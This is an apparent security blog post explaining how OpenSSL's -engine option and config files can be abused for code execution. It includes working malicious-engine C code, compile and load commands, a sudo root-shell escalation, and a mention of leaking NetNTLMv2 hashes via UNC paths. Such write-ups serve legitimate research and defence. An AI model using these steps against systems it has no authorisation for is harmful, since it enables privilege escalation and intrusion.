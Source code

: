 ```yaml
---
layout: page
title: OpenSSL Arg Injection 
permalink: /openssl-arginjection/
---
```


# OpenSSL code execution through argument injection

This is a short little post detailing how to get OpenSSL to run arbitrary code through the use of the `-engine` option. As detailed in the docs, an OpenSSL engine is a new component "to support alternative cryptography implementations, most commonly for interfacing with external crypto devices".  These engines consist of compiled code which is loaded by OpenSSL, and can be used to run arbitrary code. 

This is useful in situations such as if you have the ability to pass arguments (like in an argument injection vulnerability) to OpenSSL, or can alter a configuration file used to generate certificates. If you have sudo access to OpenSSL, you can easily elevate to full root. Exploiting this does however require placing the malicious engine file somewhere on the disk of the target file system. 

On Windows (using a commonly distributed OpenSSL windows binary) it appears you can also use UNC paths for the engine DLLs, which also has the convenient effect of disclosing NetNTLMv2 hashes should you wish them. However, if you're at this point, you should be able to get command execution using a malicious engine.

I've found multiple applications that allow argument injection into OpenSSL, and using this argument injection has enabled me to turn that into code execution.

## Details

For demonstration purposes, I have a system running Debian 10 with OpenSSL installed and the `libssl-dev` package. Create a file "engine.c", with the following contents:

```
#include <stdio.h>
#include <openssl/engine.h>

static const char *engine_id = "malengine";
static const char *engine_name = "Engine for executing arbitrary code";

static int bind(ENGINE *e, const char *id){
    int ret = 0;
    int status = system("/bin/bash -c 'echo \"arbitrary code\"'");
    if(!ENGINE_set_id(e,engine_id)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    if(!ENGINE_set_name(e,engine_name)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    ret = 1;
    end:
        return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
This file is mostly sourced from [this OpenSSL blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/).

**Update:** I submitted [a PR to GTFOBins and a maintainer replied with a much simpler engine file](https://github.com/GTFOBins/GTFOBins.github.io/pull/125):

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", "-c","echo 'arbitrary code'");
}
```


Compile it using the following gcc command, which will create the `engine.so` shared library. The engine file does not need to end in .so. This is very convenient as if you have a a web application that only allows whitelisted extensions for files written to disk you can get an engine file on there. 

`gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o`

and then use the following OpenSSL command:
`openssl req -engine ~/engine.so`

which will output the following:
```
user@debian10:~$ openssl req -engine ~/engine.so
arbitrary code
engine "rce" set.
```

If you can run openSSL with sudo, you can spawn a bash shell:

`int status = system("/bin/bash");`

```
user@debian10:~$ sudo openssl req -engine ~/engine.so
root@debian10:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian10:/home/user# 
```

Several other OpenSSL commands seem to support the engine parameter, such as  
```
openssl rsa -engine ~/engine.so
openssl s_client -engine ~/engine.so
openssl x509 -engine ~/engine.so
```

and probably some more, just check the man page. 

Exploiting these in argument injection vulnerabilities isn't always trivial as just injecting the engine parameter, as depending on the position of the injected argument you may also need to have a valid set of OpenSSL arguments. Interestingly enough the engine seems to be loaded even if the other Openssl args are invalid, as long as the engine argument preceeds the invalid argument. So we see:

```
user@debian10:~$ openssl req INVALID -engine ~/engine.so
req: Use -help for summary.
user@debian10:~$  

```
doesn't work, however the following does:
```
user@debian10:~$ openssl req -engine ~/engine.so INVALID
arbitrary code
engine "rce" set.
req: Use -help for summary.
user@debian10:~$ 
```

If you can write multiple lines into an OpenSSL config file somehow (%0a perhaps...), you can probably get an engine reference in there. Create a config file like:

```
[default]
openssl_conf = openssl_init

[openssl_init]
engines = engine_section

[engine_section]
foo = foo_section

[foo_section]
dynamic_path = /home/user/engine.so
init = 1

```

then when this is used by OpenSSL:
```
user@debian10:~$ openssl req -new -config test.cnf
arbitrary code
Generating a RSA private key
..........................+++++
............................+++++
writing new private key to stdout
```

One of the major downsides with malicious engines like this is that they are not particularly portable. If your target system is running an older or newer version of OpenSSL your generated engine may not work. You'll need to set up an environment that matches the target system to compile the engine, or do it on the target system if possible. There may be a way to generate more portable versions of these engines that work with multiple versions of OpenSSL.

Also, it probably doesn't need saying but *this is not a vulnerability in OpenSSL*.
